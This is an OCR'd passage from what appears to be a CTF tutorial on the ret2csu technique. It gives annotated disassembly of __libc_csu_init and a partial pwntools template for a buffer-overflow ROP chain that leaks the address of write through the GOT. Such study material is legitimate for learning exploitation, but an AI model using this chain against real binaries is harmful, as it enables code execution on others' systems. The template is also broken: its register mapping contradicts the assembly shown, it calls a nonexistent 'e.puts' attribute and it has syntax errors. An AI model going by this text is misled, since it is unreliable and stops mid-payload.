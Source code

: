 ```
    ; Check if there are any functions in the init array
    test    rbp, rbp
    jz      short END_INIT_LOOP        ; If none, jump to end
    xor     ebx, ebx                   ; Zero out ebx (counter)

INIT_LOOP:                             ; csu2
    mov     rdx, r15                   ; Set up arguments for the function call
    mov     rsi, r14
    mov     edi, r13d
    call    ds:(__frame_dummy_init_array_entry - 600DD0h)[r12 + rbx*8] ; Call the init function
    add     rbx, 1                     ; Increment counter
    cmp     rbp, rbx                   ; Compare counter with the number of functions
    jnz     short INIT_LOOP            ; If not done, loop back

END_INIT_LOOP:                         ; csu1
    add     rsp, 8                     ; Restore the stack
    pop     rbx                        ; Restore callee-saved registers
    pop     rbp
    pop     r12
    pop     r13
    pop     r14
    pop     r15
    retn                               ; Return to the caller
__libc_csu_init endp
```

**Register Use**:

- `r12` holds the base address of the `.init_array` section.
- `rbp` holds the end address of the `.init_array` section.
- `rbx` is used as a counter to iterate over the array.

**Function Call**:

- The line `call ds:(__frame_dummy_init_array_entry - 600DD0h)[r12 + rbx*8]` calculates the address of each function in the array and calls it.

### Template

```py
csu1_addr = 0xdeadbeef
csu2_addr = 0xdeadbeef
write_plt = e.puts['write']
write_got = e.got['write']
start_addr = 0xdeadbeef

# Leak address
pl  = b'a'*0xdeadbeef + csu1_addr	# buffer overflow
pl += flat({
    # csu1: pops
    0x0:  0,	# rbx
    0x8:  1,	# rbp
    """
    call [r12 + rbx*8]
    	write(fd, ptr, size)
    """
    0x10: write_plt,	# r12
    0x18: 8,			# r13->rdx (size)
    0x20: write_got,	# r14->rsi (ptr)
    0x28: 1,			# r15->rdi (fd)
    0x30: csu2_addr,	# ret
    # csu2->csu1: loop->ret
    0x38: 0,	# add rsp, 8
    0x40: 0,	# pop rbx
    0x48: 0,	# pop rbp
```